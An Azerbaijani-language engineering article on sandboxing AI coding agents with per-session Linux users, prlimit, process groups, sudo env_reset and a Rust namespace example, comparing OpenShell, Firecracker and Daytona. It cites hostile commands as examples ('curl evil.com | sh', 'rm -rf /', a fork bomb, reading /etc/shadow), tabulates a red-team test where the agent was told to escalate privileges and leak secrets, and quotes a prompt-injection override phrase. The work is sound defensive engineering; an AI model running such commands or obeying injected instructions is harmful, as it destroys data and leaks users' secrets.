







# AI agentlərdə sandbox: Linux və praktika

**Müəllif:** Riad Mukhtarov
**Nəşr:** ABB Data Portal
**Oxu vaxtı:** ~12 dəq

---



Bir süni intellekt agenti `rm -rf /` yazır və sisteminiz bunu icra edir.

Bu nəzəri ssenari deyil. AI coding agentləri (Claude Code, Cursor, Codex) normal iş prosesinin bir hissəsi olaraq shell əmrləri icra edir: fayl əməliyyatları, paket quraşdırmaları, test icraları, data emalı. Agentin nöqteyi-nəzərindən `pip install pandas` ilə `curl evil.com | sh` arasında heç bir fərq yoxdur. Hər ikisi sadəcə əmrdir. Bu sərhədi müəyyənləşdirən xarici mexanizm olmalıdır.

Ənənəvi sandboxing yanaşması hansı kodun işləyəcəyini əvvəlcədən bildiyinizə əsaslanır. Seccomp profili yazırsınız, konkret syscall-ları whitelist edirsiniz, container image-i təyin edirsiniz. AI agentləri ilə isə bu yanaşma işləmir. Kod runtime-da istifadəçinin prompt-una əsasən generasiya olunur və nəticə hər şey ola bilər: data emalı skripti, web scraper, `/etc/shadow` oxuyan bir one-liner. Hələ mövcud olmayan kod üçün statik policy yazmaq mümkün deyil.

Biz daxili LLM platformamızda agentlərin istifadəçilər adından ixtiyari shell əmrləri icra etməsini təmin etdik. Eyni host üzərində çoxlu istifadəçi işləyir, hər biri agentin oxuyub emal edəcəyi fayllar yükləyir. Həll etdiyimiz ilk problem containment idi: bir sessiyanın agenti digər sessiyanın fayllarını oxumasın, host-dakı sirləri görməsin, bütün resursları tükətməsin.

Standart həll yolu container-lərdir. Hər sessiya üçün ayrıca Docker container qaldırılır, sessiya bitəndə silinir. İşləyir, amma sistemi yükləyir. Container-in qalxması gecikməyə səbəb olur, hər birinin öz filesystem layer-i üçün yaddaş tələb olunur, lifecycle idarəsi üçün isə orkestrləmə alətləri (Kubernetes, ECS) lazımdır. İstifadəçilərin tez-tez sessiya açıb bağladığı platformada bu overhead sürətlə yığılır.

Biz fərqli yol seçdik. Linux-un özünü istifadə etdik.



---

## Linux prosesləri necə izolyasiya edir (və biz bunu necə istifadə etdik)

Linux-da proses izolyasiyası 1970-ci illərdən mövcuddur. Mexanizmlər zaman keçdikcə mürəkkəbləşib, amma əsas prinsiplər hələ də işləyir.

### Hər sessiya üçün ayrı Linux user

Unix-in ən köhnə izolyasiya mexanizmi budur. Hər proses müəyyən bir user olaraq işləyir. Hər faylın sahibi, qrupu və permission bit-ləri var. İcazəsi olmayan faylı proses oxuya bilmir.

Biz hər chat sessiyası üçün yeni Linux user yaradırıq. Username sessiya ID-sindən SHA-256 hash vasitəsilə generasiya olunur, yəni həm deterministikdir, həm də idempotent. Container yenidən başlasa belə heç nə pozulmur.

```bash
#!/bin/bash
set -euo pipefail

SID=$1
USERNAME="sb_$(printf '%s' "$SID" | sha256sum | cut -c1-16)"

if ! id "$USERNAME" &>/dev/null; then
    useradd -s /usr/sbin/nologin -G sandbox "$USERNAME"
fi

USER_UID=$(id -u "$USERNAME")
HOME_DIR="/home/$USER_UID"
mkdir -p "$HOME_DIR/uploads" "$HOME_DIR/outputs" "$HOME_DIR/scratch"

chown -R "$USERNAME:appuser" "$HOME_DIR"
chown "appuser:sandbox" "$HOME_DIR/uploads"
chmod 750 "$HOME_DIR"
chmod 750 "$HOME_DIR/uploads"
chmod 770 "$HOME_DIR/outputs"
chmod 770 "$HOME_DIR/scratch"
```

Burada bir neçə vacib detal var.

Shell olaraq `/usr/sbin/nologin` təyin olunub, yəni sandbox user interaktiv sessiya aça bilmir. Əmrlər yalnız tətbiqin `sudo -u` vasitəsilə çağırdığı hallarda icra olunur. Sandbox user yalnız `sandbox` qrupuna daxildir, `appuser` qrupuna yox. Nəticədə user A, user B-nin home direktoriyasına girə bilmir, çünki B-nin home-u mode 750-dir və A həmin qrupda deyil.

`uploads/` qovluğunun sahibi `appuser:sandbox`-dır, mode 750 ilə. Tətbiq yüklənmiş faylları buraya yazır; agent faylları oxuya bilir, lakin OS səviyyəsində nə dəyişdirə, nə də silə bilir. `outputs/` və `scratch/` isə mode 770 ilə konfiqurasiya olunub, agent bu qovluqlara sərbəst şəkildə yaza bilir.



### prlimit resurs istifadəsini məhdudlaşdırır

`prlimit` prosesə hard kernel limit-lər tətbiq edir. Limit aşılan anda kernel prosesi dayandırır. Güzəşt yoxdur, xəbərdarlıq yoxdur.

Dörd limit tətbiq edirik: `nproc=100` (fork bomb-ların qarşısını alır), `as=4GB` (address space tavanı), `fsize=500MB` (tək faylın maksimum ölçüsü) və `cpu=timeout×4` (CPU vaxtı, wall-clock timeout-a mütənasib).

Niyə məhz bu rəqəmlər? `nproc=100` Python skriptinin data emalı üçün worker thread-lər və ya subprocess-lər yaratmasına kifayət edəcək qədər yüksəkdir, lakin `:(){ :|:& };:` kimi fork bomb host-un process table-ını doldurmamış sonlanır. 4GB address space pandas/numpy workload-ları üçün kifayət etsə də, tək sessiyanın host-u tükətməsinin qarşısını alır. CPU vaxt çarpanı (4x wall-clock) multi-threaded işi nəzərə alır: timeout 120 saniyədirsə, proses bütün core-lar üzrə 480 saniyə CPU vaxtı alır. Real iş üçün bəs edir, amma crypto mining və ya sonsuz loop-lar üçün sıx limitdir.

### Process group-lar background child-ları tutur

Timeout-dan yayınmağın klassik yolu: `sleep 999 &`. Parent proses bitir, timeout işə düşür, amma background-dakı child prosesi fəaliyyətini davam etdirir. Hələ də sandbox user olaraq işləyir, hələ də resurs sərf edir, amma artıq heç kim onu izləmir.

Sandbox prosesini öz sessiyasında başladırıq (`start_new_session=True`). Bu onu yeni process group-a yerləşdirir. Timeout zamanı bütün qrupu `os.killpg()` vasitəsilə dayandırırıq. Hər child, grandchild və background proses birlikdə sonlanır. Bu mexanizm olmadan fork edən hər əmr arxada orphan-lar buraxardı.

### sudo + env_reset mühiti təmizləyir

Bu detal çox vaxt nəzərdən qaçır. Tətbiqinizin prosesində environment variable-lar var: LLM provider üçün API key-lər, database connection string-ləri, daxili servis URL-ləri. Əgər sandbox prosesi həmin mühiti miras alırsa, tək bir `printenv` əmri bütün sirləri ifşa edir.

`sudo -u sandbox_user` çağırılanda `env_reset` default olaraq işə düşür və child proses tamamilə boş mühitlə başlayır. Biz yalnız `PATH`, `HOME` və `TMPDIR` təyin edirik. Başqa heç nə. Agent `env` icra etsə, cəmi üç variable görəcək. Key yoxdur, credential yoxdur, token yoxdur.

Bütün bu mexanizmlər bir subprocess çağırışında birləşir:

```python
proc = subprocess.Popen(
    [
        "sudo", "-u", username,
        "prlimit",
        "--nproc=100:100",
        "--as=4294967296:4294967296",
        "--fsize=524288000:524288000",
        f"--cpu={timeout * 4}:{timeout * 4}",
        "env", f"PATH={SANDBOX_PATH}",
        f"HOME={home}", f"TMPDIR={home}/scratch",
        "sh", "-c", command,
    ],
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE,
    text=True,
    cwd=str(cwd),
    start_new_session=True,
)
```

`shell=True` yoxdur. Command string `sh -c`-yə tək argument olaraq ötürülür və sandbox user adından icra olunur. Bu quruluşda shell metacharacter-ləri parent proses kontekstinə keçə bilmir.

### Nəyi istifadə etmədik

**Namespace-lər** (PID, network, mount) ayrı proses ağacları, şəbəkə yığınları və fayl sistemi görünüşləri yaradır. İzolyasiya daha güclü olur, amma arxitekturanın mürəkkəbliyi də artır. Bizim threat model üçün user/group ayrılığı kifayət edirdi.

**Seccomp** ayrı-ayrı system call-ları filtrləyir. `ptrace`, `mount`, `reboot` kimi çağırışları blok edə bilərsiniz. Lakin səhv syscall-ın bloklanması Python-un, NumPy-ın və ya agentin istifadə etdiyi digər kitabxanaların işini poza bilər. Bu səviyyədə granularity bizə lazım deyildi.

**Container-lər.** Docker namespace-ləri, cgroup-ları və overlay filesystem-ləri rahat bir paketdə birləşdirir. Lakin hər sessiya üçün container qaldırmaq əlavə gecikmə yaradır, bizə lazım olan izolyasiya isə Docker-in təqdim etdiyindən daha sadədir.



---

## Eyni şey Rust-da

Python executor işləyir. Amma əslində nə edir: string-lərdən ibarət siyahı yığır və `subprocess.Popen`-ə ötürür. Əsl işi isə `sudo`, `prlimit` və `sh` görür, hamısı xarici binary-lərdir. Python sadəcə orkestrləyir. Kernel-ə birbaşa toxunmur.

Rust isə toxuna bilir. Bunun üçün də əsaslı səbəblər var.

### Sandboxing üçün niyə Rust

Sandboxing mahiyyətcə təhlükəsizlik kodudur. Təhlükəsizlik kodunun da spesifik xüsusiyyəti var: əməliyyatların ardıcıllığı vacibdir, səhvlər isə səssizcə baş verir. Resource limit-ləri child prosesi spawn etdikdən *sonra* tətbiq etsəniz, və ya privilege-ləri faylı açdıqdan *sonra* atsanız, ortaya heç bir testin tuta bilməyəcəyi, heç bir xətanın üzə çıxmayacağı bir race condition çıxır. Proqram normal işləyir, sadəcə təhlükəsiz deyil.

Python-un `subprocess` abstraksiyası bu ardıcıllığı gizlədir. Argument siyahısı ötürürsünüz və düzgün ardıcıllıqla icra olunacağına ümid edirsiniz. `fork()` ilə `exec()` arasına əlavə addım yerləşdirmək istəsəniz, Python mühitinə yad olan aşağı səviyyəli `os` modul çağırışlarına müraciət etməlisiniz.

Rust isə birbaşa syscall girişi verir, üstəlik type safety ilə. Syscall-ın argument tiplərini qarışdırmaq mümkün deyil. Return value-nu yoxlamağı unuda bilməzsiniz, compiler `Result`-u ignore etməyə imkan vermir. Kodla kernel arasında heç bir runtime yoxdur. "Privilege-ləri at" ilə "əmri icra et" arasında GC pause olmur.

Firecracker (Amazon-un microVM-i), gVisor-un `runsc`-si və systemd-nin sandboxing komponentləri Rust-da yazılıb və ya Rust-a keçir. Səbəb hər yerdə eynidir: təhlükəsizlik üçün kritik olan və syscall-larla sıx işləyən kod, səhv etmə ehtimalını azaldan dildə daha etibarlı yazılır.

### nix crate

`nix` crate Linux system call-larını safe Rust tiplərinə bükür. Kernel-ə bir qat daha yaxın sandbox belə görünür:

```rust
use nix::sched::{unshare, CloneFlags};
use nix::sys::resource::{setrlimit, Resource};
use nix::unistd::{setuid, Uid};
use std::process::Command;

fn sandbox_exec(cmd: &str) -> std::io::Result<std::process::Output> {
    // new PID namespace: child özünü PID 1 olaraq görür
    // new network namespace: ümumiyyətlə şəbəkə girişi yoxdur
    unshare(
        CloneFlags::CLONE_NEWPID | CloneFlags::CLONE_NEWNET
    ).expect("unshare failed");

    // Python versiyası ilə eyni limitlər, setrlimit(2) vasitəsilə
    setrlimit(Resource::RLIMIT_AS, 4_294_967_296, 4_294_967_296).unwrap();
    setrlimit(Resource::RLIMIT_NPROC, 100, 100).unwrap();
    setrlimit(Resource::RLIMIT_FSIZE, 524_288_000, 524_288_000).unwrap();

    // unprivileged user-ə düş
    setuid(Uid::from_raw(65534)).unwrap();

    Command::new("sh").args(["-c", cmd]).output()
}
```

Cəmi 20 sətir. Xarici binary-lərə heç bir subprocess çağırışı yoxdur. `unshare` yeni PID və network namespace-ləri yaradır: child host proseslərini görə bilmir, şəbəkə yığını da mövcud deyil. `setrlimit` eyni kernel mexanizmi ilə (xaricdən `prlimit`-in istifadə etdiyi mexanizm) resurs limitlərini tətbiq edir. `setuid` isə prosesi unprivileged user-ə keçirir. Hər çağırış gördüyünüz ardıcıllıqla, eyni proses daxilində, arada heç bir shell olmadan icra olunur.

Python versiyası ilə müqayisə etsək, hər ikisi eyni nəticəni verir. Lakin Rust versiyası bunu tək prosesdə, xarici binary-lər olmadan, shell parsing olmadan və icra ardıcıllığında qeyri-müəyyənlik olmadan edir. Compile edilmiş binary-nin ölçüsü ~2MB-dir, runtime asılılığı sıfırdır. İstənilən Linux container-ə atıb işlədə bilərsiniz.

Biz production sandbox-da Rust istifadə etmədik. Python + Bash bizim üçün kifayət idi. Lakin namespace-level izolyasiya, seccomp filter-ləri və ya fork/exec sərhədində daha ciddi nəzarət lazım olsaydı, C-yə keçmədən əvvəl Rust və `nix` crate ilə işə başlayardıq.



---

## Nəyi test etdik, nələr tab gətirdi

Sandbox qurmaq bir şeydir. Ona etibar etmək isə tamamilə başqa.

Canlı sistemə qarşı təhlükəsizlik qiymətləndirməsi apardıq. Nəzəri araşdırma deyildi. Agentə birbaşa təlimat verdik: digər istifadəçilərin fayllarını oxumağa çalış, privilege escalation et, sirləri sızdır, resursları tükət. Bundan əlavə, agentdən asılı olmayan testlər də keçirdik: birbaşa sandbox user olaraq `sudo -u` ilə daxil olub OS-level nəzarətləri LLM qatından müstəqil şəkildə yoxladıq.

Əsas fəlsəfə belədir: fərz edin ki, LLM düşmən hərəkətlərə *mütləq* inandırılacaq, istər birbaşa prompt vasitəsilə, istərsə də yüklənmiş fayllardakı zərərli kontent vasitəsilə. Təhlükəsizlik modeli modelin imtinasına arxalana bilməz. Model hücumçu ilə tam əməkdaşlıq etdiyi halda belə müdafiə dayanmalıdır.

| Vektor | Nəticə |
|--------|--------|
| Digər sessiyanın fayllarını oxu | Bloklandı. Mode 750, yanlış qrup. |
| sudo ilə root-a escalation | Bloklandı. Parol tələb olunur, sandbox user-lərin sudo hüququ yoxdur. |
| Digər sandbox user-ə keç | Bloklandı. |
| env/printenv ilə API key sızdır | Bloklandı. `env_reset` hər şeyi silir. Yalnız PATH, HOME, TMPDIR görünür. |
| Sistem fayllarını oxu (/etc/shadow, /root) | Bloklandı. Path validasiyası + OS permission-lar. |
| Path traversal (upload, download, symlink) | Bloklandı. Input sanitizasiyası + `.resolve()` + containment yoxlaması. |
| Workspace xaricində yaz | Bloklandı. Filesystem permission qatı rədd edir. |
| Yüklənmiş faylları dəyişdir | Bloklandı. `uploads/` appuser-ə məxsusdur, mode 750. |
| Fork bomb, memory exhaustion, böyük fayl | Bloklandı. prlimit prosesi dayandırır. |
| Təhlükəli əmrlər (rm -rf /, curl\|sh) | LLM qatı rədd etdi + tool allowlist blok etdi. |

Sistem bütün testlərdən keçdi. Lakin "test etdiklərimizin hamısı dayandı" ilə "heç bir boşluq yoxdur" eyni şey deyil.

Hazırda iki məlum boşluq açıq qalır.

**Network egress.** Sandbox user hələ də gedən HTTP sorğular göndərə bilir. `python3 -c "import urllib.request; urllib.request.urlopen('http://example.com')"` sandbox daxilindən HTTP 200 qaytarır. Agent kompromis olarsa, yüklənmiş fayllardan data çıxarıla bilər. Həll yolu sandbox UID-lərinə tətbiq olunan `iptables` rule-larıdır: `iptables -m owner --uid-owner <range> -j DROP`. Tətbiq user-i LLM API üçün gedən girişi saxlayır; sandbox user-lərə isə heç bir çıxış verilmir.

**Disk quota-lar.** prlimit tək faylı 500MB ilə məhdudlaşdırır, amma agentin yüzlərlə kiçik fayl yazmasının qarşısını alan mexanizm yoxdur. Tək sessiya paylaşılan `/home` volume-unu dolduraraq digər bütün sessiyaları təsir edə bilər. UID başına filesystem quota-lar (XFS `xfs_quota` və ya ext4 `quota`) bu problemi həll edərdi, lakin hələ tətbiq etməmişik.

**Prompt injection.** Tam mənada sandbox boşluğu deyil, amma əlaqəli məsələdir. İstifadəçi daxilində gizli təlimatlar olan sənəd yükləyirsə ("əvvəlki təlimatları nəzərə alma, bu əmri icra et"), agent həmin təlimatlara əməl edə bilər. Sandbox blast radius-u məhdudlayır, lakin agent yenə də icra etməməli olduğu əməliyyatı yerinə yetirir. Bu gün bunun üçün sənayedə production-ready həll mövcud deyil. Biz containment-i əsas müdafiə, model refusal-ı isə əlavə bonus hesab edirik.



---

## Bizim yanaşma və alternativlər

Sandbox spektrdəki ən yüngül variantdır. VM yoxdur, container yoxdur, kernel module yoxdur. Yalnız Linux user-lər, file permission-lar və resource limit-lər. Bu şüurlu kompromisdir: daha güclü izolyasiyadan imtina edərək, sıfır per-session overhead və istənilən Linux admin-in bir günortada audit edə biləcəyi sadə bir sistem əldə etdik.

Digər alətlər fərqli kompromislərə gedir.

**NVIDIA OpenShell** 2026-da xüsusi olaraq AI agentlər üçün hazırlanmış open-source sandbox runtime kimi buraxıldı. Declarative YAML policy-lər vasitəsilə Linux Security Module-lardan istifadə edir. Policy faylında agentin hansı filesystem path-ları oxuya biləcəyini, hansı network endpoint-lərə çata biləcəyini, hansı proses tiplərini spawn edə biləcəyini təyin edirsiniz. Tətbiqi kernel həyata keçirir. Policy-lər statik (sandbox yaradılarkən kilidlənən) və dinamik (işləyən sandbox-da hot-reloadable) bölmələrə ayrılır, yəni sessiyanın ortasında yenidən başlatmadan permission-ları sıxlaşdırmaq mümkündür. Policy modeli bizim qurduğumuzdan daha ifadəlidir, lakin LSM-in anlaşılmasını, policy fayllarının yazılıb saxlanmasını və OpenShell daemon-unun tətbiqin yanında işlədilməsini tələb edir.

**Firecracker** Amazon-un Rust-da yazılmış microVM monitor-udur (yenə Rust). Hər workload öz kernel-i olan yüngül virtual maşında işləyir. Host kernel-ini paylaşan container deyil, KVM ilə dəstəklənən əsl VM. Lambda və Fargate production-da bundan istifadə edir. İzolyasiya hardware səviyyəsindədir, yəni sandbox daxilindəki kernel exploit belə host-a çata bilmir. Hər VM üçün startup təxminən 125ms, yaddaş overhead-i isə hər instance üçün ~5MB təşkil edir. Əgər threat model-iniz kernel-level hücumları əhatə edirsə, doğru seçim budur. Data emalı chatbot-u üçün isə artıq sayıla bilər.

**Daytona** fərqli istiqamətdən yanaşır. Konfiqurasiya faylları əsasında tam development mühitləri yaradır: əvvəlcədən quraşdırılmış toolchain-lər, şəbəkə izolyasiyası, davamlı storage, SSH girişi olan container-lər və ya VM-lər. Təkrar yaradıla bilən mühitlərə ehtiyacı olan developer-lər üçün nəzərdə tutulub, lakin izolyasiya modeli agentlər üçün də yararlıdır. Bütün lazımi alətlər əvvəlcədən konfiqurasiya olunmuş tam workspace əldə edirsiniz. Overhead buradakı bütün variantlar arasında ən yüksəkdir (hər sessiya üçün tam mühit işlədilir), amma agentə spesifik alətlər, runtime-lar və ya sistem kitabxanaları lazımdırsa, bu problemi ayrıca həll etmək məcburiyyətindən qurtulursunuz.

Nə vaxt hansını seçməli:

- Paylaşılan infrastruktur, tenant izolyasiyası, minimal per-session overhead: Linux user-lər + prlimit.
- Policy-driven giriş nəzarəti, incə permission-lar, production miqyası: OpenShell.
- Hardware-level izolyasiya, kernel-exploit-grade threat model: Firecracker.
- Spesifik toolchain-lərlə tam konfiqurasiya olunmuş mühitlər: Daytona.



---

## Nə qalır

